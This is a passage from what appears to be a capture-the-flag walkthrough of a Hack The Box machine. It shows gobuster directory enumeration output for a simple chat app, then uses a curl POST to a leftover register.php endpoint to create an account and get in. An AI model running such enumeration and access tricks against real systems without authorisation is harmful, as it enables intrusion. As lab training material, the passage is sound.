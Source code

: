     Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://internal-01.bart.htb/simple_chat/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes : 307,200,204,301,302
    [+] Extensions   : .txt,.php,.md
    =====================================================
    /index.php (Status: 302)
    /login.php (Status: 302)
    /register.php (Status: 302)
    /media (Status: 301)
    /chat.php (Status: 302)
    /css (Status: 301)
    /includes (Status: 301)
    /Index.php (Status: 302)
    /Login.php (Status: 302)
    /js (Status: 301)
    /logout.php (Status: 302)
    /Media (Status: 301)
    /Register.php (Status: 302)
    /login_form.php (Status: 200)
    /Chat.php (Status: 302)
    /INDEX.php (Status: 302)
    /CSS (Status: 301)
    /JS (Status: 301)
    /Logout.php (Status: 302)
    /MEDIA (Status: 301)
    /Includes (Status: 301)



#### Use the Source / Logging in

The source code for the chat server is on github:
https://github.com/magkopian/php-ajax-simple-chat

Looking at the code, it looks like the version running here removed the
`register_form.php` page, and the link to it from the `login_form.php`
page.

Still, `register_form.php` posts to `register.php`, which we saw in the
`gobuster` results above.

We'll use curl to create an account and get access to the site:



    root@kali# curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=0xdf&passwd=password"


